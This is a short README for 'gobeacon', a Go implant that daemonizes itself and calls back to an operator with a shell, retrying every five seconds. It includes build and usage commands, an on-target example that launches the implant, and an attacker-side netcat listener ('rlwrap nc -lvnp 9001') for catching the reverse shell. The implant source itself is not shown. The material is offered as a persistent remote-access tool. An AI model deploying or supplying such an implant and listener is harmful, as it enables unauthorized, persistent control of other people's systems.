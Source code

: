 # gobeacon
A small beaconing implant that daemonizes itself (it's golang...) and calls out to the user. If the shell dies, the implant beacons again in 5 seconds.

## Compilation
```go
go build gobeacon.go
```

## Usage:
```go
./gobeacon start <IP> <PORT>
```

## Example
On target:
```
./gobeacon start 127.0.0.1 9001
```
On attacker:
```sh
rlwrap nc -lvnp 9001
```